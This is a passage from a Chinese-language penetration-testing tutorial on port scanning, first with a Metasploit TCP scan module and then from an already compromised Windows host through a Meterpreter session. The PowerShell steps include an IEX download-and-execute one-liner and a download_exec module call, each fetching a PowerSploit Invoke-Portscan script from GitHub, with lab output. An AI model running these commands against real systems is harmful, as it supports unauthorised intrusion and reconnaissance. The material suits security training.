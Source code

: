 ```
   RHOSTS                        yes       The target address range or CIDR identifier
   THREADS      1                yes       The number of concurrent threads
   TIMEOUT      1000             yes       The socket connect timeout in milliseconds

msf auxiliary(tcp) > set ports 22-25,80-85,1433,3306,3389,445
ports => 22-25,80-85,1433,3306,3389,445
msf auxiliary(tcp) > set rhosts 192.168.1.1/24
rhosts => 192.168.1.1/24
msf auxiliary(tcp) > set threads 20
threads => 20
msf auxiliary(tcp) > exploit 

[+] 192.168.1.1:          - 192.168.1.1:80 - TCP OPEN
```

可以看出参数设置可以使用 `192.168.1.1/24` 子网掩码形式和 `22-25,80-85,1433,3306,3389,445` 连接符形式，逗号分隔；

## 6、Powershell

方式一：先进入`powershell`界面，再下载利用；

```
meterpreter > load powershell 
Loading extension powershell...Success.
meterpreter > powershell_shell 
PS > whoami
go0s-pc\go0s
PS > IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1");
PS > Invoke-Portscan -Hosts 192.168.1.104


Hostname      : 192.168.1.104
alive         : True
openPorts     : {49152}
closedPorts   : {80, 23, 443, 21...}
filteredPorts : {}
finishTime    : 2018/1/17 16:57:09
```

方式二：先下载，再进入`powershell`界面利用；

```
meterpreter > load powershell 
Loading extension powershell...Success.
meterpreter > run post/windows/manage/download_exec URL=https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1

[*] 41534 bytes downloaded to C:\Users\Go0s\AppData\Local\Temp\Invoke-Portscan.ps1 in 1 seconds 
meterpreter > powershell_shell
PS > C:\Users\Go0s\AppData\Local\Temp\Invoke-Portscan.ps1
PS > Invoke-Portscan -Hosts 192.168.1.104


Hostname      : 192.168.1.104
alive         : True
openPorts     : {49152}
closedPorts   : {80, 23, 443, 21...}
filteredPorts : {}
finishTime    : 2018/1/17 17:14:44
```


[Go0s]: ~ 
[Go0s]: ~/Download